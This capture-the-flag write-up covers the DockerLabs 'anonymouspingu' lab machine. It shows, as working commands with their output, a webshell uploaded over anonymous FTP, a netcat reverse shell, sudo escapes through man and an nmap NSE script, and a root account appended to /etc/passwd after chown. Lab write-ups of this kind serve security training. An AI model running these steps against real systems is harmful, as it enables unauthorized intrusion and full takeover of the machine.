



# anonymouspingu

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| anonymouspingu | El Pingüino de Mario | easy | dockerlabs |

**Summary:** The anonymouspingu machine was a four-hop privilege escalation challenge combining anonymous FTP file upload, a writable `upload/` directory exposed on the web, a PHP webshell, and a cascading sudo chain through `man`, `nmap --script`, and `chown` to achieve root via `/etc/passwd` injection. Nmap revealed anonymous FTP on port 21 with a world-writable `upload/` directory served as `[NSE: writeable]`, and Apache on port 80. Attempting to write to the FTP root failed with `553 Could not create file`, but changing into `upload/` succeeded. A test file was successfully uploaded and confirmed world-executable on the server. A PHP webshell was then uploaded to `upload/` via FTP, and its URL was browsed in the web application, confirming RCE as `www-data`. A reverse shell was triggered via the webshell and caught by a netcat listener. The TTY was stabilised using `pty`. User enumeration revealed three interactive accounts: `pingu`, `gladys`, and `ubuntu`. A `sudo -l` check as `www-data` revealed passwordless access to `/usr/bin/man` as `pingu`. Running `sudo -u pingu /usr/bin/man man` opened the man pager, from which `!/bin/bash` dropped into a shell as `pingu`. As `pingu`, sudo revealed passwordless access to `/usr/bin/nmap` and `/usr/bin/dpkg` as `gladys`. An NSE script writing `os.execute("/bin/sh <&1 >&1 2>&1")` to `/tmp/shell.nse` was run with `sudo -u gladys nmap --script=/tmp/shell.nse`, spawning a shell as `gladys`. As `gladys`, sudo revealed passwordless access to `/usr/bin/chown` as root. Ownership of `/etc/passwd` was transferred to `gladys`, a hash was generated with `openssl passwd -1 -salt xyz rooted`, a root-equivalent entry `r00t` was appended, and `su - r00t` completed the escalation.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/anonymouspingu]
└─$ sudo bash auto_deploy.sh anonymouspingu.tar 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/anonymouspingu]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-05 15:30 +0700
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    2 0        0            4096 Jan 01  1970 css
| drwxr-xr-x    2 0        0            4096 Apr 28  2024 heustonn-html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28  2024 index.html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33           4096 Apr 28  2024 upload [NSE: writeable]
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Mantenimiento
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 1E:DA:51:F5:85:A6 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.31 seconds
```

The scan revealed anonymous FTP on port 21 with a world-writable `upload/` directory flagged `[NSE: writeable]`, and Apache on port 80.

---

## Initial Access

### Anonymous FTP Upload to Web-Accessible upload/ Directory

**3. Testing Write Access and Uploading the Webshell**

A test file was created and an anonymous FTP connection was opened. Uploading to the root failed with `553 Could not create file`, but uploading to the `upload/` subdirectory succeeded. The uploaded file was confirmed as world-executable.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/anonymouspingu]
└─$ echo 'test' > test.txt         
                                                                                         
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/anonymouspingu]
└─$ ftp $ip               
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:ouba): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||15013|)
553 Could not create file.
ftp> ls -la
229 Entering Extended Passive Mode (|||51347|)
150 Here comes the directory listing.
drwxr-xr-x    1 0        0            4096 Apr 28  2024 .
drwxr-xr-x    1 0        0            4096 Apr 28  2024 ..
-rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
-rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
drwxr-xr-x    2 0        0            4096 Jan 01  1970 css
drwxr-xr-x    2 0        0            4096 Apr 28  2024 heustonn-html
drwxr-xr-x    2 0        0            4096 Oct 23  2019 images
-rw-r--r--    1 0        0           20162 Apr 28  2024 index.html
drwxr-xr-x    2 0        0            4096 Oct 23  2019 js
-rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
drwxrwxrwx    1 33       33           4096 Apr 28  2024 upload
226 Directory send OK.
ftp> cd upload
250 Directory successfully changed.
ftp> put test.txt 
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||34925|)
150 Ok to send data.
100% |********************************************|     5       26.97 KiB/s    00:00 ETA
226 Transfer complete.
5 bytes sent in 00:00 (6.78 KiB/s)
ftp> ls -la
229 Entering Extended Passive Mode (|||30581|)
150 Here comes the directory listing.
drwxrwxrwx    1 33       33           4096 Aug 05 08:38 .
drwxr-xr-x    1 0        0            4096 Apr 28  2024 ..
-rwxrwxrwx    1 101      103             5 Aug 05 08:38 test.txt
226 Directory send OK.
```

Write access to `upload/` was confirmed. The web application was inspected to confirm the `upload/` directory was accessible over HTTP.





A PHP webshell was uploaded via FTP.

```bash
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||47182|)
150 Ok to send data.
100% |********************************************|    31      167.25 KiB/s    00:00 ETA
226 Transfer complete.
31 bytes sent in 00:00 (45.52 KiB/s)
```



**4. Triggering the Reverse Shell**

A netcat listener was started on the attacker machine.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/anonymouspingu]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

The webshell was browsed at `/upload/shell.php` and the reverse shell payload was triggered.


**5. Catching the Shell and Stabilising the TTY**

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 43176
www-data@e45a2f350996:/var/www/html/upload$ cd /        
cd /
www-data@e45a2f350996:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@e45a2f350996:/$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                                                                              
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/anonymouspingu]
└─$ stty raw -echo; fg  
[1]  + continued  nc -lvnp 4444

www-data@e45a2f350996:/$ export SHELL=/bin/bash
www-data@e45a2f350996:/$ export TERM=xterm
www-data@e45a2f350996:/$ stty rows 80 cols 130
```

A stable TTY shell was obtained as `www-data`.

---

## Lateral Movement and Privilege Escalation

### Three-Hop sudo Chain to Root

**6. User Enumeration and www-data sudo Check**

```bash
www-data@e45a2f350996:/$ ls -la /home
total 20
drwxr-xr-x 1 root   root   4096 Apr 28  2024 .
drwxr-xr-x 1 root   root   4096 Aug  5 08:30 ..
drwxr-x--- 2 gladys gladys 4096 Apr 28  2024 gladys
drwxr-x--- 2 pingu  pingu  4096 Apr 28  2024 pingu
drwxr-x--- 2 ubuntu ubuntu 4096 Apr 23  2024 ubuntu
www-data@e45a2f350996:/$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
pingu:x:1001:1001::/home/pingu:/bin/bash
gladys:x:1002:1002::/home/gladys:/bin/bash
```

```bash
www-data@e45a2f350996:/var/www/html$ sudo -l
Matching Defaults entries for www-data on e45a2f350996:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on e45a2f350996:
    (pingu) NOPASSWD: /usr/bin/man
```

**7. www-data to pingu via sudo man**

Running `sudo -u pingu /usr/bin/man man` opened the man pager. Entering `!/bin/bash` from the pager spawned a shell as `pingu`.

```bash
www-data@e45a2f350996:/var/www/html$ sudo -u pingu /usr/bin/man man
MAN(1)                                                Manual pager utils                                                
MAN(1)

NAME
       man - an interface to the system reference manuals

SYNOPSIS
...

!/bin/bash
```

**8. pingu to gladys via sudo nmap NSE Script**

```bash
pingu@e45a2f350996:/var/www/html$ sudo -l
Matching Defaults entries for pingu on e45a2f350996:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User pingu may run the following commands on e45a2f350996:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg
```

An NSE Lua script was written to `/tmp/shell.nse` and executed with `sudo -u gladys nmap --script`.

```bash
pingu@30f3095a5b14:/tmp$ echo 'os.execute("/bin/sh <&1 >&1 2>&1")' > /tmp/shell.nse
pingu@30f3095a5b14:/tmp$ sudo -u gladys nmap --script=/tmp/shell.nse
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-08-05 09:07 UTC
$ reset
$ id
uid=1002(gladys) gid=1002(gladys) groups=1002(gladys)
```

**9. gladys to root via sudo chown and /etc/passwd Injection**

```bash
$ sudo -l
Matching Defaults entries for gladys on 30f3095a5b14:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User gladys may run the following commands on 30f3095a5b14:
    (root) NOPASSWD: /usr/bin/chown
$ sudo /usr/bin/chown gladys:gladys /etc/passwd
$ openssl passwd -1 -salt xyz rooted
$1$xyz$txYmAcRyLmpCUI5OSYRFi1
$ echo 'r00t:$1$xyz$txYmAcRyLmpCUI5OSYRFi1:0:0:root:/root:/bin/bash' >> /etc/passwd
$ grep r00t /etc/passwd
r00t:$1$xyz$txYmAcRyLmpCUI5OSYRFi1:0:0:root:/root:/bin/bash
$ su - r00t
Password: 
root@30f3095a5b14:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
30f3095a5b14
```

Full root access was achieved via `/etc/passwd` injection.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified anonymous FTP on port 21 with a world-writable `upload/` directory (`[NSE: writeable]`), and Apache on port 80. Uploading to the FTP root failed but uploading to the `upload/` subdirectory succeeded and the file appeared world-executable.
2. **Exploitation**: A PHP webshell was uploaded via anonymous FTP to `upload/`. Browsing the webshell at `/upload/shell.php` over HTTP confirmed RCE as `www-data`. A reverse shell was triggered, caught by netcat, and the TTY was stabilised via `pty`.
3. **Hop 1 (www-data to pingu)**: `sudo -l` revealed passwordless access to `/usr/bin/man` as `pingu`. Running `sudo -u pingu man man` opened the man pager and `!/bin/bash` dropped into a shell as `pingu`.
4. **Hop 2 (pingu to gladys)**: `sudo -l` revealed passwordless access to `/usr/bin/nmap` and `/usr/bin/dpkg` as `gladys`. An NSE script at `/tmp/shell.nse` executing `os.execute("/bin/sh <&1 >&1 2>&1")` was run with `sudo -u gladys nmap --script=/tmp/shell.nse`, spawning a shell as `gladys`.
5. **Hop 3 (gladys to root)**: `sudo -l` revealed passwordless access to `/usr/bin/chown` as root. Ownership of `/etc/passwd` was transferred to `gladys`. `openssl passwd -1 -salt xyz rooted` generated a hash. A new `r00t` entry with UID 0 was appended to `/etc/passwd`. `su - r00t` with the password `rooted` produced a root shell.
